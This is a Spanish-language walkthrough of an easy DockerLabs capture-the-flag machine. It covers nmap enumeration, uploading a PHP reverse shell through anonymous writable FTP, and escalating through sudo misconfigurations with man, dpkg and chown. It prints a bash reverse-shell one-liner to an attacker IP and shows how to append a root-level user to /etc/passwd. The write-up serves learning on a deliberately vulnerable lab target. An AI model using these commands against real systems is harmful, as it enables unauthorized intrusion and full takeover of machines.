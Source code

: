 ## Información

**Plataforma:** DockerLabs
**Dificultad:** Easy

---
## Enumeración

### Nmap

```bash
❯ sudo nmap -p- --open -sS --min-rate 5000 -n -vvv -Pn 172.17.0.2
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

> Puertos encontrados: 21,80
#### Escáner de puertos específicos:
```bash
❯ nmap -p21,80 -sCV 172.17.0.2
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
| -rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
| drwxr-xr-x    2 0        0            4096 Jan 01  1970 css
| drwxr-xr-x    2 0        0            4096 Apr 28 18:28 heustonn-html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 images
| -rw-r--r--    1 0        0           20162 Apr 28 18:32 index.html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 js
| -rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
|_drwxrwxrwx    1 33       33           4096 Apr 28 21:08 upload [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Mantenimiento
|_http-server-header: Apache/2.4.58 (Ubuntu)
Service Info: OS: Unix

```

## Paso a Paso

Notamos en el reporte específico que el ftp tiene acceso anon, que al listar nos muestra archivos html, lo que nos da indicio de que está posicionado en la carpeta raíz del puerto 80. Lo primero que se me ocurre es intentar subir un archivo para obtener una shell.

![image](https://github.com/user-attachments/assets/12e79185-60f2-4fd6-b755-8a490eab4dfd)


Al comparar el index del ftp y del puerto 80 notamos que son exactamente el mismo
![image](https://github.com/user-attachments/assets/6c7a2093-fd8e-4106-8624-20bae22ee26f)



Haré una rev shell con msfvenom (Me estoy preparando para el eJPT por lo que intento usar esta herramienta, pero realmente con un php monkey vendría mejor):
![image](https://github.com/user-attachments/assets/2cb83a3d-4fe4-425b-a365-0cf5dcb157ac)


Notamos que no tenemos permisos para subir archivos en la raiz del ftp
![image](https://github.com/user-attachments/assets/004f58b7-2e75-4d85-b87d-e2924d5f6583)


Pero también, gracias al nmap especifico, notamos que en la carpeta uploads tenemos permisos de escritura, igual corroboramos con un ls -la:

![image](https://github.com/user-attachments/assets/eb038b75-c8dc-492b-8a1e-ee81f70462dd)


Lo subimos ahí

![image](https://github.com/user-attachments/assets/f724d774-30dc-4a42-b98f-72995e415258)


Abrimos el navegador en la ruta del upload

![image](https://github.com/user-attachments/assets/a23997a6-cf0f-4fd1-8953-888773ce74d9)


nos ponemos en escucha con nc

![image](https://github.com/user-attachments/assets/00d024a0-7b59-4491-8d19-9708802c0afd)


Presionamos el archivo.php en la web y listo

![image](https://github.com/user-attachments/assets/3623827d-9d6a-4a6b-8312-854b3bd052da)


Como lo hice con msfvenom nos migramos a otro nc usando un oneliner en paralelo, por lo que nos ponemos en escucha en otro puerto no usado (por ej el 5555)

`bash -c "bash -i >& /dev/tcp/172.17.0.1/5555 0>&1"`

![image](https://github.com/user-attachments/assets/5057cf4d-9c20-44b0-979a-aa878daec81b)


![image](https://github.com/user-attachments/assets/412866d5-97d7-486f-b321-62e07c90f6f0)

y listo, tenemos shell como usuario www-data

## Pivoteando a user

#### Moviendo a user pingu
Notamos que al hacer un sudo -l tenemos permisos sudo como el user pingu del man

![image](https://github.com/user-attachments/assets/365d733a-0fe3-4376-83f2-f19fc6762d1a)


Tiramos de gtfobins

![image](https://github.com/user-attachments/assets/bc009c9e-b71b-4a5d-a209-3f6e6d7774be)


![image](https://github.com/user-attachments/assets/627a5f86-8ba4-4cd3-808f-65e706ce5fa5)


y listo, migramos al user pingu

#### Moviendo hacia user gladyss
Notamos que al tirar un sudo -l tenemos permisos para usar nmap y dpkg como gladys

Al leer la info de nmap en gtfobins, al intentarlo no funciona, esto es debido a que la máquina víctima tiene una versión de nmap en donde ya no sirve el --interactive por lo que optamos por leer la info del dpkg
![image](https://github.com/user-attachments/assets/83a48378-aac5-41e5-a647-d6b7f57bb686)


y listo:
![image](https://github.com/user-attachments/assets/312a6269-3136-4f77-821b-bf0b8fff07b8)


ya tenemos acceso a gladys y al hacer un sudo -l notamos que tiene permisos sudo en el chown.

## Escalada de privilegios

Me di cuenta que no tiene nano la máquina por lo que no puedo editar el etc sudoers, lo que podemos hacer es cambiarle los permisos user:group al /etc/passwd y dárselos a gladys, así podemos crear un user con privilegios (Lo que hace root es el código 0:0 es decir el id de usuario y grupo, 0 corresponde a root)

para esto creamos un hash de contraseña con:

`openssl passwd 123123`

![image](https://github.com/user-attachments/assets/97956565-f814-41a5-80ef-9e0db7fa5bf0)


Luego usamos ese hash para el usuario nuevo haciendo echo

`echo 'rootcito:$1$dsFeRo/J$sd7nh6Js.KWNnFct6hP2y1:0:0::/home/rootcito:/bin/bash` >> /etc/passwd`

![image](https://github.com/user-attachments/assets/9ebe71bd-593e-445b-92e3-ef44f200e660)


notamos que funcionó, hacemos un **su rootcito** con la clave 123123

![image](https://github.com/user-attachments/assets/703f4f07-2cad-4271-9d12-1cafe2306c08)


**y listo! Máquina lista**

---
